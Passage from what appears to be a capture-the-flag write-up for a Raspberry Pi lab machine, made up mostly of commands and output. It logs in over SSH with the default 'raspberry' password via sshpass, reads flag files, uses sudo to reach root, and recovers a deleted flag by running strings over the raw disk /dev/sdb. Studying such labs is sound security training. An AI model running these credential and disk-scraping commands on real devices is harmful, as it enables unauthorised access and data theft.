 #### 2.1. Shell on device
```
# sshpass -p raspberry ssh pi@10.10.10.48 "uname -a"
Linux raspberrypi 3.16.0-4-686-pae #1 SMP Debian 3.16.36-1+deb8u2 (2016-10-19) i686 GNU/Linux
```


#### 2.2. User Token
```
# sshpass -p raspberry ssh pi@10.10.10.48 "find / -name user.txt 2>/dev/null"
/home/pi/Desktop/user.txt
/lib/live/mount/persistence/sda2/home/pi/Desktop/user.txt
# sshpass -p raspberry ssh pi@10.10.10.48 "cat /home/pi/Desktop/user.txt" && echo
[CUT]20e32199d7c8838d
```


#### 2.3. Get Root Token (`sudo su` for `root`)
```
root@raspberrypi:~# cat /root/root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
root@raspberrypi:~# cat /media/usbstick/damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```


#### 2.4. Root Token
```
# sshpass -p raspberry ssh pi@10.10.10.48 "sudo strings /dev/sdb | grep -oE '[a-z0-9]{32}'" && echo
[CUT]505d026fa13e020b
```

